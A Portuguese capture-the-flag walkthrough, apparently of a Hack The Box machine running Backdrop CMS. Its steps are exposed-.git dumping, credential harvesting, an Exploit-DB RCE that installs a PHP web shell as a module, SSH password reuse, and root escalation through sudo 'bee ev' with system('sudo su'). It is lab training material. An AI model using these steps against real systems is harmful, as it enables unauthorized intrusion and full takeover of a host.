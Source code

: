 #Difficult : Easy
#OS : Linux
***
## Port Scanning
Como sempre começamos escaneando as portas abertas na máquina para termos uma noção de quais serviços estão rodando na máquina.
```bash
nmap 10.10.11.58 -sC -Pn -sV -A -oN nmap_output
```
![[Pasted image 20250331185850.png]]

Logo aqui já temos várias informações importantes como o repositório em `.git` o nome do serviço rodando (`Backdrop CMS`) e o arquivo `robots.txt`.
***
## Git Directory Disclosure
Como não temos nada a perder, vamos baixar o diretório para uma possível busca no futuro.
```bash
pip install git-dumper
mkdir site_content
git dumper "http://10.10.11.58/.git" ./site_content 
```

Há um arquivo de configuração, podemos vê-lo. Como ele tem muitos comentários, fazer um filtro.
```bash
ls ./site_content
cat ./site_content/settings.php | grep -v "*"
```
![[Pasted image 20250331192017.png]]
Nas primeiras linhas, acho uma credencial disponível, ma ainda não temos nenhum usuário para usa-la.
***
## Broken authentication
Podemos dar uma olhada no site para ver se temos algo de interessante.
![[Pasted image 20250331191102.png]]

Em `About` temos uma informação interessante, o domínio da empresa visível em  `support@dog.htb`.
![[Pasted image 20250331191305.png]]

Podemos fazer uma busca desse domínio no dump do diretório `.git` que baixamos.
```bash
grep -Ri "@dog.htb" ./site_content
```
![[Pasted image 20250331192251.png]]
Conseguimos 2 possíveis usuários : `dog@dog.htb` | `tiffany@dog.htb`. Podemos tentar usa-los com a senha que descobrimos anteriormente.

A primeira tentativa com `dog@dog.htb` indica que este usuário não existe. Mas ao tentar com `tiffany@dog.htb`, conseguimos logar.
![[Pasted image 20250331192739.png]]
***
## RCE
Em `Reports` e `Status Report` podemos ver qual a versão do sistema rodando, isso nos ajuda a procurar alguma vulnerabilidade para tal.
![[Pasted image 20250331193244.png]]

Encontro então um [exploit](https://www.exploit-db.com/exploits/52021) para um ``RCE`` nessa versão do `Backdrop`. Esse script gera um arquivo zip com as payloads, mas devemos ter acesso ao sistema para envia-las como um módulo.
![[Pasted image 20250331193347.png]]

Ele irá gerar uma payload para que possamos acessar em `http://10.10.11.58/modules/shell/shell.php`
```bash
mkdir exploit && cd exploit
wget -O exploit.py "https://www.exploit-db.com/download/52021"
chmod +x ./exploit.py
python3 ./exploit.py
```
![[Pasted image 20250331194523.png]]

Devemos compactar em `.tar` pois é um dos formatos aceitos pelo `Backdrop` para envio de módulos.
```bash
ls
tar -cvf shell.tar shell/
```
![[Pasted image 20250331194741.png]]

Após isso podemos ir em `Functionality`, `Install new modules` e `Manual installation`.
![[Pasted image 20250331195347.png]]

Após isso podemos verificar a ``url`` e emitir um comando no prompt para verificar se conseguimos a conexão.
![[Pasted image 20250331195429.png]]

Aparentemente a máquina não está habilitada a fazer uma conexão remota. Mas podemos tentar nossa senha com algum usuário na máquina.
![[Pasted image 20250331200433.png]]

Ao fazer uma conexão `SSH` com o usuário `johncusack` e mesma senha de `tiffany` garantimos acesso.
```bash
ssh johncusack@10.10.11.58
id
```
![[Pasted image 20250331200854.png]]

**E estamos dentro!**
***
## PRIV ESC
Agora enumerar os comandos que `johncusack` pode executar como `root`.
```bash
sudo -l
```
![[Pasted image 20250331201051.png]]

Podemos executar o binário `/usr/local/bin/bee` como `root`. Vamos executar para ver o que ele faz.
```bash
sudo /usr/local/bin/bee
```
![[Pasted image 20250331201221.png]]

Ele faz muitas coisas relacionadas ao `CMS` mas o que me chamou a atenção foi a função `ev`, que executa código `PHP` arbitrário.
```bash
sudo /usr/local/bin/bee ev "system('sudo su')"
✘  The required bootstrap level for 'eval' is not ready.

cd /var/www/html
sudo /usr/local/bin/bee ev "system('sudo su')"
```
![[Pasted image 20250331201543.png]]
Tivemos que mudar de pasta, pois o comando precisa ser executado dentro do diretório de "inicialização" do `CMS`.

**Owned!**
***

![[Pasted image 20250331201615.png]]